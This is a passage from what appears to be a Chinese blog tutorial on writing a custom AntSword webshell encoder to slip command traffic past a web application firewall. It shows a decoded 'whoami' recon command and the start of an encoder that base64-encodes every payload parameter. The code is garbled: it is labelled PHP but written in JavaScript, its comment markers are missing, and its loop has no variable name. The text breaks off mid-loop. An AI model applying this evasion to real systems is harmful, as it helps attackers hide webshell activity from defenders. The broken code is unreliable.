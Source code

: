 
抓包观察下发送的数据包：


可看到参数`kd8aa13e6949d3`的值还是base64编码，解码后的值为：`cd /d "C:/phpstudy/PHPTutorial/WWW"&whoami&echo [S]&cd&echo [E]`还是具有明显的特征会被waf拦截。


`由于蚁剑只会对data`[`pwd]里面的参数按照设定的编码器编码，其它参数默认使用base64编码，所以其它参数一旦被waf解码还是会有明显的特征，从而导致被拦截。那有办法将全部的参数编码吗？在蚁剑的一个issue里，作者给出了解决办法，具体的请去[这里`](https://github.com/AntSwordProject/antSword/issues/185)查看。


![2020%2005%2021%2013%2044%2011.png](../post_images/3942f8f27da0f61bca6f439e9e5a2ff9.png)


可以看到解决办法是遍历_`data[]`_取出其中的值并将其全部编码,按照这种思路修改下上面写的编码器：


```php
/
  _php::base64编码器
  Create at: 2020/05/21 13:07:23
 /

'use strict';

/
 @param  {String} pwd   连接密码
 @param  {Array}  data  编码器处理前的 payload 数组
 @return {Array}  data  编码器处理后的 payload 数组
/
module.exports = (pwd, data) => {
  // ##########    请在下方编写你自己的代码   ###################
  let ret = {};
  for (let  in data){
```